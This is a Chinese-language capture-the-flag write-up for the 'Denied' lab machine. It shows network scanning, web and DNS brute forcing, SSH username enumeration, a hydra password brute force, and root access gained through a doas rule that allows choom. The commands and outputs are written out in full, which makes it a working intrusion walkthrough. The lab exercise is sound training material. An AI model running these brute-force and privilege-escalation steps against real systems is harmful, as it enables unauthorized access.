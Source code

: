 # 1. 信息收集 - 目标锁定！

![image-20250519113211432](https://7r1umphk.github.io/image/20250519113211569.webp)

这靶机纯复现，因为我都知道它口在哪了。不过，流程还是要走一遍的嘛！

### 1. 信息收集 - 目标锁定！

老一套，先用 `arp-scan` 看看内网里谁是目标。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ sudo arp-scan -l        
[sudo] password for kali: 
Interface: eth0, type: EN10MB, MAC: 00:0c:29:af:40:3a, IPv4: 192.168.205.206
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.205.1   00:50:56:c0:00:08       VMware, Inc.
192.168.205.2   00:50:56:f4:ef:6f       VMware, Inc.
192.168.205.217 08:00:27:63:80:7c       PCS Systemtechnik GmbH # <--- 就是你了！
192.168.205.254 00:50:56:ed:bd:56       VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.975 seconds (129.62 hosts/sec). 4 responded
```
IP地址 `192.168.205.217` 到手，接着 `nmap` 大法伺候，看看开了些啥端口，跑了啥服务。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ nmap -p22,80,8080 -sV 192.168.205.217
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-18 23:33 EDT
Nmap scan report for denied.nyx (192.168.205.217)
Host is up (0.00036s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
8080/tcp open  http    Apache httpd 2.4.62 ((Debian))
MAC Address: 08:00:27:63:80:7C (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.44 seconds
```
开了 22 (SSH), 80 (HTTP), 还有个 8080 (也是HTTP)。都是 Apache 2.4.62，SSH 版本是 OpenSSH 9.2p1。

### 2. Web 服务探测 - Apache 欢迎您！

先 `curl` 一下 80 和 8080 端口看看。两个端口都是 Apache 的默认欢迎页面，一模一样。看来没啥特别的东西。
接着上目录爆破，用 `gobuster` 扫了一圈，换了好几个字典，包括 `directory-list-2.3-medium.txt`, `directory-list-2.3-big.txt`，甚至我自己改的倒序 `hbig.txt`，还试了各种常见的扩展名。

```bash
gobuster dir -u http://192.168.205.217:80 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,txt,html,zip 
gobuster dir -u http://192.168.205.217:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,txt,html,zip 
gobuster dir -u http://192.168.205.217:80 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt  -x php,txt,html,zip 
gobuster dir -u http://192.168.205.217:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt  -x php,txt,html,zip # Note: Log had 80, but context implies 8080
gobuster dir -u http://192.168.205.217:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/hbig.txt -x php,txt,html,zip,bak,old,conf,cgi,sh,log,.htaccess
```
结果是...啥也没扫出来。Web 这边看来是条死胡同。还试了下DNS子域名爆破，也没啥发现。

```bash
gobuster dns -d http://disguise.hmv/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```

### 3. SSH 突破 - 用户名枚举与爆破

Web 没戏，那就只能从 SSH 下手了。先试试 `root` 用户。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ ssh root@192.168.205.217
root@192.168.205.217: Permission denied (publickey).
```
提示 `Permission denied (publickey)`，看来 `root` 用户是禁止密码登录，强制用密钥。

这时候我想起了昨天看到的 ll04567 大佬的思路...
![image-20250519113954961](https://7r1umphk.github.io/image/20250519113955108.webp)
害，昨天为什么要看到，没看到就可以自己摸索一下了。既然是复现，那就按这个思路走。
大佬的思路是存在一个可以密码登录的普通用户。用 `seclists` 里的用户名字典尝试枚举一下：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ for i in $(cat /usr/share/seclists/Usernames/Names/names.txt);do ssh $i@192.168.205.217 ;done
# ... (大量尝试) ...
akira@192.168.205.217's password: 
```
(这里手动 `Ctrl+C` 停止枚举)
枚举到用户 `akira` 的时候，SSH 客户端提示输入密码，而不是像其他用户那样直接 `Permission denied (publickey)`。这说明 `akira` 用户存在，并且允许密码登录！

找到用户名 `akira`，接下来就是祭出 `hydra` 大法爆破密码了。用了一个常用的密码字典 `5000q.txt`。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ hydra -l akira -P 5000q.txt ssh://192.168.205.217 -V -I          
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-18 23:41:21
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 5000 login tries (l:1/p:5000), ~313 tries per task
[DATA] attacking ssh://192.168.205.217:22/
[ATTEMPT] target 192.168.205.217 - login "akira" - pass "123456" - 1 of 5000 [child 0] (0/0)
# ... (大量尝试输出) ...
[ATTEMPT] target 192.168.205.217 - login "akira" - pass "shakira" - 568 of 5003 [child 7] (0/3)
[22][ssh] host: 192.168.205.217   login: akira   password: shakira
^C                                                                                                                                                                                   
```
Bingo! `hydra` 成功爆出密码 `akira:shakira`。

赶紧登录！
```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ ssh akira@192.168.205.217 
akira@192.168.205.217's password: shakira
akira@denied:~$ id
uid=1000(akira) gid=1000(akira) grupos=1000(akira)
```
成功以 `akira` 用户登录系统！

### 4. 权限提升 - akira -> root

拿到 `akira` 的 shell，先看看家目录有啥，顺便把 `user.txt` 读了。

```bash
akira@denied:~$ ls -la
total 28
drwx------ 3 akira akira 4096 may 18 13:03 .
drwxr-xr-x 3 root  root  4096 may 18 11:25 ..
lrwxrwxrwx 1 root  root     9 nov 15  2023 .bash_history -> /dev/null
-rw-r--r-- 1 akira akira  220 nov 15  2023 .bash_logout
-rw-r--r-- 1 akira akira 3526 nov 15  2023 .bashrc
drwxr-xr-x 3 akira akira 4096 may 18 11:41 .local
-rw-r--r-- 1 akira akira  807 nov 15  2023 .profile
-r-------- 1 akira akira   33 may 18 11:41 user.txt
akira@denied:~$ cat user.txt 
6acfb2803973dacc95152a873ba79255
```
User flag到手！接下来看看能不能提权到 `root`。
先试试 `sudo -l`：
```bash
akira@denied:~$ sudo -l
-bash: sudo: orden no encontrada
```
“orden no encontrada”，西班牙语的 “command not found”。看来系统里没有 `sudo`，或者 `akira` 用户的 `PATH` 没配好。

那就找找有没有 SUID 程序可以利用。
```bash
akira@denied:~$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/mount
/usr/bin/chsh
/usr/bin/doas  # <--- 这个看起来不一般！
/usr/bin/passwd
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/newgrp
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```
发现了一个 `/usr/bin/doas`，这玩意儿是 `sudo` 的一个轻量级替代品。有戏！
看看 `doas` 能不能直接用：
```bash
akira@denied:/opt$ /usr/bin/doas -h
/usr/bin/doas: invalid option -- 'h'
usage: doas [-Lns] [-C config] [-u user] command [args]
akira@denied:/opt$ /usr/bin/doas -u root bash
doas: Operation not permitted
```
直接用 `doas -u root bash` 提示 “Operation not permitted”。看来 `akira` 用户不能随便用 `doas` 执行所有命令。
那它到底能用 `doas` 执行啥呢？得想办法枚举一下 `/etc/doas.conf`或者暴力测试 `/usr/bin` 下的命令。结果发现`/etc/doas.conf`不给看，那就只可以暴力测试
根据日志，是通过遍历测试发现 `/usr/bin/choom` 可以用 `doas` 执行：

```bash
akira@denied:/opt$ for i in $(ls /usr/bin); do doas -u root /usr/bin/$i 2>&1 | grep -v "doas: Operation not permitted";done
choom: no se ha especificado ni PID ni ORDEN
Escriba 'choom --help' para obtener más información.
akira@denied:/opt$ /usr/bin/doas -u root /usr/bin/choom --help

Modo de empleo:
 choom [opciones] -p pid
 choom [opciones] -n número -p pid
 choom [opciones] -n número [--] orden [args...]]  # <--- 关键在这！

Muestra y ajusta la puntuación de matador OOM.

Opciones:
 -n, --adjust <num>     especifica el valor de ajuste de puntuación
 -p, --pid <num>        ID de proceso

 -h, --help             muestra esta ayuda
 -V, --version          muestra la versión
```
`choom` 的帮助信息里写着可以用 `-n <número> [--] orden [args...]` 的方式来执行一个命令！既然 `doas` 允许 `akira` 以 `root` 权限执行 `choom`，那我们就可以通过 `choom` 来间接以 `root` 权限执行任意命令了！

利用这个特性，让 `choom` 执行 `/bin/bash -p` (`-p` 参数是为了让 bash 保持有效用户ID为 root)。
```bash
akira@denied:/opt$ /usr/bin/doas -u root /usr/bin/choom -n -1000-p 0 bash
root@denied:/opt# id
uid=0(root) gid=0(root) grupos=0(root)
```
Boom! `uid=0(root)`，成功拿到 root 权限！

### 5. 收获 Root Flag

拿到 root shell，最后一步当然是读取 `/root/root.txt`。
```bash
root@denied:/opt# cat /root/root.txt 
ea2118e462426513a247964eb8320c27
```
Root flag到手！Denied 靶机，卒！
